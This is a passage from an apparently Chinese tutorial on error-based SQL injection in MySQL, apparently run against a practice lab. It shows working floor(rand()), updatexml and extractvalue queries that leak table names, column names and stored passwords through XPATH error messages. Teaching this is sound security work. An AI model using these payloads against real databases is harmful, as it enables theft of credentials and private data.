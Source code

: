![16.png](http://www.myh0st.cn/usr/uploads/2017/12/4230473088.png)

- 获取内容

```
mysql> select count(*),concat(0x3a,0x3a,(select username from users limit 0,1),0x3a,floor(rand()*2)) name from information_schema.tables group by name;
```

![17.png](http://www.myh0st.cn/usr/uploads/2017/12/1315713514.png)

#### UpdateXml报错注入

- 获取表名

```
mysql> select updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 3,1)),0);
ERROR 1105 (HY000): XPATH syntax error: '~users'
```

- 获取字段

```
mysql> select updatexml(0,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 4,1)),0);
ERROR 1105 (HY000): XPATH syntax error: '~password'
mysql> select updatexml(0,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 3,1)),0);
ERROR 1105 (HY000): XPATH syntax error: '~user'
```

- 获取内容

```
mysql> select updatexml(0,concat(0x7e,(SELECT concat(password) FROM users limit 0,1)),0);
ERROR 1105 (HY000): XPATH syntax error: '~Dumb'
mysql> select updatexml(0,concat(0x7e,(SELECT concat(password) FROM users limit 1,1)),0);
ERROR 1105 (HY000): XPATH syntax error: '~I-kill-you'
```

> extractvalue报错

- 获取表名

```
mysql> select extractvalue(1, concat(0x5c,(select table_name from information_schema.tables where table_schema=database() limit 3,1)));
ERROR 1105 (HY000): XPATH syntax error: '\users'
```

- 获取字段

```
mysql> select extractvalue(1, concat(0x5c,(select password from users limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '\I-kill-you'
mysql> select extractvalue(1, concat(0x5c,(select password from users limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '\Dumb'
```

